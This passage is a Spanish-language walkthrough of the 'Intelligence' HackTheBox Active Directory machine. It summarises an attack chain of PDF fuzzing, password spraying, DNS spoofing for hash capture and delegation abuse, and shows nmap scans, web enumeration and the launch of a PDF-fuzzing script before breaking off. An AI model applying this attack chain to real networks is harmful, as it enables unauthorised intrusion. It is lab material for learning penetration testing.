Intelligence es una máquina Windows de dificultad media que muestra una serie de ataques comunes en un entorno `Active Directory`. Tras recuperar documentos PDF internos almacenados en el servidor web (forzando un esquema de nomenclatura común) e inspeccionar su contenido y metadatos, que revelan una contraseña predeterminada y una lista de posibles usuarios de Active Directory, el rociado de contraseñas conduce al descubrimiento de una cuenta de usuario válida, lo que permite la entrada inicial en el sistema. Se descubre un script PowerShell programado que envía peticiones autenticadas a servidores web basándose en su nombre de host; añadiendo un registro DNS personalizado, es posible forzar una petición que puede ser interceptada para capturar el hash de un segundo usuario, que es fácilmente  `crackeable`. A este usuario se le permite leer la contraseña de una cuenta de servicio administrada por un grupo, que a su vez tiene acceso restringido por delegación al controlador de dominio, lo que da lugar a un shell con privilegios administrativos.


# Enumeración

Iniciamos enumerando  los puertos que se encuentra abiertos en la maquina victima, esto con la herramienta de `nmap` 

```python
❯ nmap -p- --open --min-rate 5000 -vvv -Pn -n 10.10.10.248 -oG allportsScan
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack
80/tcp    open  http             syn-ack
88/tcp    open  kerberos-sec     syn-ack
135/tcp   open  msrpc            syn-ack
139/tcp   open  netbios-ssn      syn-ack
389/tcp   open  ldap             syn-ack
445/tcp   open  microsoft-ds     syn-ack
464/tcp   open  kpasswd5         syn-ack
593/tcp   open  http-rpc-epmap   syn-ack
636/tcp   open  ldapssl          syn-ack
3268/tcp  open  globalcatLDAP    syn-ack
3269/tcp  open  globalcatLDAPssl syn-ack
5985/tcp  open  wsman            syn-ack
9389/tcp  open  adws             syn-ack
49667/tcp open  unknown          syn-ack
49683/tcp open  unknown          syn-ack
49684/tcp open  unknown          syn-ack
49694/tcp open  unknown          syn-ack
49742/tcp open  unknown          syn-ack
56871/tcp open  unknown          syn-ack
```


- `-p-`: especifica que se escaneen todos los puertos (desde el puerto 1 hasta el puerto 65535).
- `--open`: muestra solo los puertos que están abiertos.
- `--min-rate 5000`: establece la tasa mínima de paquetes por segundo a 5000 para acelerar el escaneo.
- `-vvv`: establece un nivel de verbosidad muy alto, mostrando una salida muy detallada del escaneo.
- `-Pn`: ignora la detección de hosts y asume que el objetivo está activo.
- `-n`: evita la resolución DNS inversa para las direcciones IP.
- `10.10.11.248`: es la dirección IP del host que se va a escanear.
- `-oG allportsScan`: genera un archivo de salida en formato greppable con el nombre "allportsScan".

Luego de obtener los puertos abiertos lo que haremos será enumerar los servicios y las versiones de estas en cada uno de los puertos.


```python
❯ nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49683,49684,49694,49742,56871 -sC -sV -vv -n 10.10.10.248 -oN ServicesScan

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
|_http-title: Intelligence
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-03-28 13:14:39Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
| Issuer: commonName=intelligence-DC-CA/domainComponent=intelligence
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-19T00:43:16
| Not valid after:  2022-04-19T00:43:16
| MD5:   7767:9533:67fb:d65d:6065:dff7:7ad8:3e88
| SHA-1: 1555:29d9:fef8:1aec:41b7:dab2:84d7:0f9d:30c7:bde7
| -----BEGIN CERTIFICATE-----
| MIIF+zCCBOOgAwIBAgITcQAAAALMnIRQzlB+HAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBQMRMwEQYKCZImiZPyLGQBGRYDaHRiMRwwGgYKCZImiZPyLGQBGRYMaW50ZWxs
| aWdlbmNlMRswGQYDVQQDExJpbnRlbGxpZ2VuY2UtREMtQ0EwHhcNMjEwNDE5MDA0
| MzE2WhcNMjIwNDE5MDA0MzE2WjAeMRwwGgYDVQQDExNkYy5pbnRlbGxpZ2VuY2Uu
| aHRiMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAwCX8Wz5Z7/hs1L9f
| F3QgoOIpTaMp7gi+vxcj8ICORH+ujWj+tNbuU0JZNsviRPyB9bRxkx7dIT8kF8+8
| u+ED4K38l8ucL9cv14jh1xrf9cfPd/CQAd6+AO6qX9olVNnLwExSdkz/ysJ0F5FU
| xk+l60z1ncIfkGVxRsXSqaPyimMaq1E8GvHT70hNc6RwhyDUIYXS6TgKEJ5wwyPs
| s0VFlsvZ19fOUyKyq9XdyziyKB4wYIiVyptRDvst1rJS6mt6LaANomy5x3ZXxTf7
| RQOJaiUA9fjiV4TTVauiAf9Vt0DSgCPFoRL2oPbvrN4WUluv/PrVpNBeuN3Akks6
| cmxzKQIDAQABo4IC/jCCAvowLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBD
| AG8AbgB0AHIAbwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcD
| ATAOBgNVHQ8BAf8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgIC
| AIAwDgYIKoZIhvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJ
| YIZIAWUDBAECMAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNV
| HQ4EFgQUCA00YNMscsMLHdNQNIASzc940RUwHwYDVR0jBBgwFoAUo2aX3GwKIqdG
| sKQv+8oXL8nKl8swgdAGA1UdHwSByDCBxTCBwqCBv6CBvIaBuWxkYXA6Ly8vQ049
| aW50ZWxsaWdlbmNlLURDLUNBLENOPWRjLENOPUNEUCxDTj1QdWJsaWMlMjBLZXkl
| MjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPWludGVs
| bGlnZW5jZSxEQz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29i
| amVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIHJBggrBgEFBQcBAQSBvDCB
| uTCBtgYIKwYBBQUHMAKGgalsZGFwOi8vL0NOPWludGVsbGlnZW5jZS1EQy1DQSxD
| Tj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049
| Q29uZmlndXJhdGlvbixEQz1pbnRlbGxpZ2VuY2UsREM9aHRiP2NBQ2VydGlmaWNh
| dGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MD8GA1Ud
| EQQ4MDagHwYJKwYBBAGCNxkBoBIEEIHijfJ5/cVAp3sSUrgFUO2CE2RjLmludGVs
| bGlnZW5jZS5odGIwDQYJKoZIhvcNAQELBQADggEBAAe43GWMvptRljuuQyFyo+AG
| c/CL8gNCVGvmkRfXyqK+vb2DBWTQ6uUjl+8hA3WuROBFUkwea5gOByKZdTPQrdou
| mVEeAf96bVQ+7/03O3Sz+0jCVTUbAJGnXNnMLStfx6TiMBqfDqsCcWRf2yScX9J4
| 1ilJEh2sEXnps/RYH+N/j7QojPZDvUeM7ZMefR5IFAcnYNZb6TfAPnnpNgdhgsYN
| 2urpaMc2At5qjf6pwyKYLxjBit1jcX6TmEgB/uaE/L9Py2mqyC7p1r40V1FxSGbE
| z4fcj1sme6//eFq7SKNiYe5dEh4SZPB/5wkztD1yt5A6AWaM+naj/0d8K0tcxSY=
|_-----END CERTIFICATE-----
|_ssl-date: 2024-03-28T13:16:11+00:00; +7h00m01s from scanner time.
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
| Issuer: commonName=intelligence-DC-CA/domainComponent=intelligence
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-19T00:43:16
| Not valid after:  2022-04-19T00:43:16
| MD5:   7767:9533:67fb:d65d:6065:dff7:7ad8:3e88
| SHA-1: 1555:29d9:fef8:1aec:41b7:dab2:84d7:0f9d:30c7:bde7
| -----BEGIN CERTIFICATE-----
| MIIF+zCCBOOgAwIBAgITcQAAAALMnIRQzlB+HAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBQMRMwEQYKCZImiZPyLGQBGRYDaHRiMRwwGgYKCZImiZPyLGQBGRYMaW50ZWxs
| aWdlbmNlMRswGQYDVQQDExJpbnRlbGxpZ2VuY2UtREMtQ0EwHhcNMjEwNDE5MDA0
| MzE2WhcNMjIwNDE5MDA0MzE2WjAeMRwwGgYDVQQDExNkYy5pbnRlbGxpZ2VuY2Uu
| aHRiMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAwCX8Wz5Z7/hs1L9f
| F3QgoOIpTaMp7gi+vxcj8ICORH+ujWj+tNbuU0JZNsviRPyB9bRxkx7dIT8kF8+8
| u+ED4K38l8ucL9cv14jh1xrf9cfPd/CQAd6+AO6qX9olVNnLwExSdkz/ysJ0F5FU
| xk+l60z1ncIfkGVxRsXSqaPyimMaq1E8GvHT70hNc6RwhyDUIYXS6TgKEJ5wwyPs
| s0VFlsvZ19fOUyKyq9XdyziyKB4wYIiVyptRDvst1rJS6mt6LaANomy5x3ZXxTf7
| RQOJaiUA9fjiV4TTVauiAf9Vt0DSgCPFoRL2oPbvrN4WUluv/PrVpNBeuN3Akks6
| cmxzKQIDAQABo4IC/jCCAvowLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBD
| AG8AbgB0AHIAbwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcD
| ATAOBgNVHQ8BAf8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgIC
| AIAwDgYIKoZIhvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJ
| YIZIAWUDBAECMAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNV
| HQ4EFgQUCA00YNMscsMLHdNQNIASzc940RUwHwYDVR0jBBgwFoAUo2aX3GwKIqdG
| sKQv+8oXL8nKl8swgdAGA1UdHwSByDCBxTCBwqCBv6CBvIaBuWxkYXA6Ly8vQ049
| aW50ZWxsaWdlbmNlLURDLUNBLENOPWRjLENOPUNEUCxDTj1QdWJsaWMlMjBLZXkl
| MjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPWludGVs
| bGlnZW5jZSxEQz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29i
| amVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIHJBggrBgEFBQcBAQSBvDCB
| uTCBtgYIKwYBBQUHMAKGgalsZGFwOi8vL0NOPWludGVsbGlnZW5jZS1EQy1DQSxD
| Tj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049
| Q29uZmlndXJhdGlvbixEQz1pbnRlbGxpZ2VuY2UsREM9aHRiP2NBQ2VydGlmaWNh
| dGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MD8GA1Ud
| EQQ4MDagHwYJKwYBBAGCNxkBoBIEEIHijfJ5/cVAp3sSUrgFUO2CE2RjLmludGVs
| bGlnZW5jZS5odGIwDQYJKoZIhvcNAQELBQADggEBAAe43GWMvptRljuuQyFyo+AG
| c/CL8gNCVGvmkRfXyqK+vb2DBWTQ6uUjl+8hA3WuROBFUkwea5gOByKZdTPQrdou
| mVEeAf96bVQ+7/03O3Sz+0jCVTUbAJGnXNnMLStfx6TiMBqfDqsCcWRf2yScX9J4
| 1ilJEh2sEXnps/RYH+N/j7QojPZDvUeM7ZMefR5IFAcnYNZb6TfAPnnpNgdhgsYN
| 2urpaMc2At5qjf6pwyKYLxjBit1jcX6TmEgB/uaE/L9Py2mqyC7p1r40V1FxSGbE
| z4fcj1sme6//eFq7SKNiYe5dEh4SZPB/5wkztD1yt5A6AWaM+naj/0d8K0tcxSY=
|_-----END CERTIFICATE-----
|_ssl-date: 2024-03-28T13:16:12+00:00; +7h00m01s from scanner time.
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
| Issuer: commonName=intelligence-DC-CA/domainComponent=intelligence
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-19T00:43:16
| Not valid after:  2022-04-19T00:43:16
| MD5:   7767:9533:67fb:d65d:6065:dff7:7ad8:3e88
| SHA-1: 1555:29d9:fef8:1aec:41b7:dab2:84d7:0f9d:30c7:bde7
| -----BEGIN CERTIFICATE-----
| MIIF+zCCBOOgAwIBAgITcQAAAALMnIRQzlB+HAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBQMRMwEQYKCZImiZPyLGQBGRYDaHRiMRwwGgYKCZImiZPyLGQBGRYMaW50ZWxs
| aWdlbmNlMRswGQYDVQQDExJpbnRlbGxpZ2VuY2UtREMtQ0EwHhcNMjEwNDE5MDA0
| MzE2WhcNMjIwNDE5MDA0MzE2WjAeMRwwGgYDVQQDExNkYy5pbnRlbGxpZ2VuY2Uu
| aHRiMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAwCX8Wz5Z7/hs1L9f
| F3QgoOIpTaMp7gi+vxcj8ICORH+ujWj+tNbuU0JZNsviRPyB9bRxkx7dIT8kF8+8
| u+ED4K38l8ucL9cv14jh1xrf9cfPd/CQAd6+AO6qX9olVNnLwExSdkz/ysJ0F5FU
| xk+l60z1ncIfkGVxRsXSqaPyimMaq1E8GvHT70hNc6RwhyDUIYXS6TgKEJ5wwyPs
| s0VFlsvZ19fOUyKyq9XdyziyKB4wYIiVyptRDvst1rJS6mt6LaANomy5x3ZXxTf7
| RQOJaiUA9fjiV4TTVauiAf9Vt0DSgCPFoRL2oPbvrN4WUluv/PrVpNBeuN3Akks6
| cmxzKQIDAQABo4IC/jCCAvowLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBD
| AG8AbgB0AHIAbwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcD
| ATAOBgNVHQ8BAf8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgIC
| AIAwDgYIKoZIhvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJ
| YIZIAWUDBAECMAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNV
| HQ4EFgQUCA00YNMscsMLHdNQNIASzc940RUwHwYDVR0jBBgwFoAUo2aX3GwKIqdG
| sKQv+8oXL8nKl8swgdAGA1UdHwSByDCBxTCBwqCBv6CBvIaBuWxkYXA6Ly8vQ049
| aW50ZWxsaWdlbmNlLURDLUNBLENOPWRjLENOPUNEUCxDTj1QdWJsaWMlMjBLZXkl
| MjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPWludGVs
| bGlnZW5jZSxEQz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29i
| amVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIHJBggrBgEFBQcBAQSBvDCB
| uTCBtgYIKwYBBQUHMAKGgalsZGFwOi8vL0NOPWludGVsbGlnZW5jZS1EQy1DQSxD
| Tj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049
| Q29uZmlndXJhdGlvbixEQz1pbnRlbGxpZ2VuY2UsREM9aHRiP2NBQ2VydGlmaWNh
| dGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MD8GA1Ud
| EQQ4MDagHwYJKwYBBAGCNxkBoBIEEIHijfJ5/cVAp3sSUrgFUO2CE2RjLmludGVs
| bGlnZW5jZS5odGIwDQYJKoZIhvcNAQELBQADggEBAAe43GWMvptRljuuQyFyo+AG
| c/CL8gNCVGvmkRfXyqK+vb2DBWTQ6uUjl+8hA3WuROBFUkwea5gOByKZdTPQrdou
| mVEeAf96bVQ+7/03O3Sz+0jCVTUbAJGnXNnMLStfx6TiMBqfDqsCcWRf2yScX9J4
| 1ilJEh2sEXnps/RYH+N/j7QojPZDvUeM7ZMefR5IFAcnYNZb6TfAPnnpNgdhgsYN
| 2urpaMc2At5qjf6pwyKYLxjBit1jcX6TmEgB/uaE/L9Py2mqyC7p1r40V1FxSGbE
| z4fcj1sme6//eFq7SKNiYe5dEh4SZPB/5wkztD1yt5A6AWaM+naj/0d8K0tcxSY=
|_-----END CERTIFICATE-----
|_ssl-date: 2024-03-28T13:16:11+00:00; +7h00m01s from scanner time.
3269/tcp  open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-03-28T13:16:12+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
| Issuer: commonName=intelligence-DC-CA/domainComponent=intelligence
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-19T00:43:16
| Not valid after:  2022-04-19T00:43:16
| MD5:   7767:9533:67fb:d65d:6065:dff7:7ad8:3e88
| SHA-1: 1555:29d9:fef8:1aec:41b7:dab2:84d7:0f9d:30c7:bde7
| -----BEGIN CERTIFICATE-----
| MIIF+zCCBOOgAwIBAgITcQAAAALMnIRQzlB+HAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBQMRMwEQYKCZImiZPyLGQBGRYDaHRiMRwwGgYKCZImiZPyLGQBGRYMaW50ZWxs
| aWdlbmNlMRswGQYDVQQDExJpbnRlbGxpZ2VuY2UtREMtQ0EwHhcNMjEwNDE5MDA0
| MzE2WhcNMjIwNDE5MDA0MzE2WjAeMRwwGgYDVQQDExNkYy5pbnRlbGxpZ2VuY2Uu
| aHRiMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAwCX8Wz5Z7/hs1L9f
| F3QgoOIpTaMp7gi+vxcj8ICORH+ujWj+tNbuU0JZNsviRPyB9bRxkx7dIT8kF8+8
| u+ED4K38l8ucL9cv14jh1xrf9cfPd/CQAd6+AO6qX9olVNnLwExSdkz/ysJ0F5FU
| xk+l60z1ncIfkGVxRsXSqaPyimMaq1E8GvHT70hNc6RwhyDUIYXS6TgKEJ5wwyPs
| s0VFlsvZ19fOUyKyq9XdyziyKB4wYIiVyptRDvst1rJS6mt6LaANomy5x3ZXxTf7
| RQOJaiUA9fjiV4TTVauiAf9Vt0DSgCPFoRL2oPbvrN4WUluv/PrVpNBeuN3Akks6
| cmxzKQIDAQABo4IC/jCCAvowLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBD
| AG8AbgB0AHIAbwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcD
| ATAOBgNVHQ8BAf8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgIC
| AIAwDgYIKoZIhvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJ
| YIZIAWUDBAECMAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNV
| HQ4EFgQUCA00YNMscsMLHdNQNIASzc940RUwHwYDVR0jBBgwFoAUo2aX3GwKIqdG
| sKQv+8oXL8nKl8swgdAGA1UdHwSByDCBxTCBwqCBv6CBvIaBuWxkYXA6Ly8vQ049
| aW50ZWxsaWdlbmNlLURDLUNBLENOPWRjLENOPUNEUCxDTj1QdWJsaWMlMjBLZXkl
| MjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPWludGVs
| bGlnZW5jZSxEQz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29i
| amVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIHJBggrBgEFBQcBAQSBvDCB
| uTCBtgYIKwYBBQUHMAKGgalsZGFwOi8vL0NOPWludGVsbGlnZW5jZS1EQy1DQSxD
| Tj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049
| Q29uZmlndXJhdGlvbixEQz1pbnRlbGxpZ2VuY2UsREM9aHRiP2NBQ2VydGlmaWNh
| dGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MD8GA1Ud
| EQQ4MDagHwYJKwYBBAGCNxkBoBIEEIHijfJ5/cVAp3sSUrgFUO2CE2RjLmludGVs
| bGlnZW5jZS5odGIwDQYJKoZIhvcNAQELBQADggEBAAe43GWMvptRljuuQyFyo+AG
| c/CL8gNCVGvmkRfXyqK+vb2DBWTQ6uUjl+8hA3WuROBFUkwea5gOByKZdTPQrdou
| mVEeAf96bVQ+7/03O3Sz+0jCVTUbAJGnXNnMLStfx6TiMBqfDqsCcWRf2yScX9J4
| 1ilJEh2sEXnps/RYH+N/j7QojPZDvUeM7ZMefR5IFAcnYNZb6TfAPnnpNgdhgsYN
| 2urpaMc2At5qjf6pwyKYLxjBit1jcX6TmEgB/uaE/L9Py2mqyC7p1r40V1FxSGbE
| z4fcj1sme6//eFq7SKNiYe5dEh4SZPB/5wkztD1yt5A6AWaM+naj/0d8K0tcxSY=
|_-----END CERTIFICATE-----
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49683/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49684/tcp open  msrpc         syn-ack Microsoft Windows RPC
49694/tcp open  msrpc         syn-ack Microsoft Windows RPC
49742/tcp open  msrpc         syn-ack Microsoft Windows RPC
56871/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-03-28T13:15:35
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 4953/tcp): CLEAN (Timeout)
|   Check 2 (port 7869/tcp): CLEAN (Timeout)
|   Check 3 (port 21343/udp): CLEAN (Timeout)
|   Check 4 (port 55743/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s
```

- `-p`: especifica los puertos a escanear. En este caso, se están escaneando los puertos 53, 80, 88, 135, 139, 389, 445, 464, 593, 636, 3268, 3269, 5985, 9389, 49667, 49683, 49684, 49694, 49742 y 56871.
- `-sC`: activa la opción de enumeración de scripts predeterminados de Nmap. Esto permite ejecutar una serie de scripts diseñados para detectar vulnerabilidades o características específicas de los servicios.
- `-sV`: realiza una detección de la versión de los servicios que se encuentran en los puertos especificados.
- `-vv`: establece un nivel de verbosidad muy alto, mostrando una salida muy detallada del escaneo.
- `-n`: evita la resolución DNS inversa para las direcciones IP.
- `10.10.10.248`: es la dirección IP del host que se va a escanear.
- `-oN ServicesScan`: genera un archivo de salida en formato normal con el nombre "ServicesScan".

## Puerto 80

Revisando el sitio web encontraremos el siguiente contenido:



Vemos que tiene enlaces de algunos documentos 



Revisando el nombre de los documentos vemos que tienen un patrón



Además, en los metadatos podemos ver que contiene el nombre del creador del documento.



# Explotación

Haciendo uso del script [Fuzz_DownloadPDF.py](https://github.com/b0ySie7e/Script_to_Resolve_CTF/blob/main/intelligence-htb/Fuzz_DownloadPDF.py) que realizamos nos permitirá hacer ffuzzing y luego descargar los PDFs existentes

```python
❯ python3 Fuzz_DownloadPDF.py
```

